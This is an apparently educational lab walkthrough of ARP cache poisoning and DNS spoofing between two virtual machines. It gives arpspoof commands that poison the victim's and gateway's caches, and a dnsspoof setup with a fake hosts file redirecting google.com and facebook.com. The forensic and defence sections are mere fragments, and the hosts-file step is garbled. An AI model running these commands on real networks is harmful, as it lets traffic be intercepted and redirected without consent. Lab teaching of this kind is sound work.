





A technical walk-through of ARP Cache Poisoning, DNS Hijacking, and Forensic Analysis.
The environment consists of two virtual machines connected to a custom VirtualBox NAT Network with Promiscuous Mode enabled.
IP: 10.0.2.4
IP: 10.0.2.15
IP: 10.0.2.1
The objective is to redirect the traffic flow. By sending forged ARP replies, the attacker forces the victim to update its ARP table with the attacker's MAC address for the Gateway IP.
Open a terminal in Kali linux and enter the following code
# Terminal 1: Poisoning Victim's Cache
sudo arpspoof -i eth0 -t 10.0.2.15 10.0.2.1
# Terminal 2: Poisoning Gateway's Cache
sudo arpspoof -i eth0 -t 10.0.2.1 10.0.2.15

Once the MitM position is established, we intercept DNS queries. The dnsspoof tool monitors for specific domain requests and replies with a spoofed IP before the real DNS server can respond.
1. Create in Desktop a txt file with the DNS and ip in the following order
# Configuration file (fake_hosts.txt) # Execution nano fake_hosts.txt8.8.8.8 www.google.com 8.8.8.8 www.facebook.com # Save with Cntrl+0
sudo dnsspoof -i eth0 -f ~/Desktop/fake_hosts.txt sudo dnsspoof -i eth0 -f fakehosts.txt


Analyzing the captured traffic confirms the attack success through protocol anomalies.

To defend against these attacks, we implement the following industry-standard protections:
netsh or ip neighbor.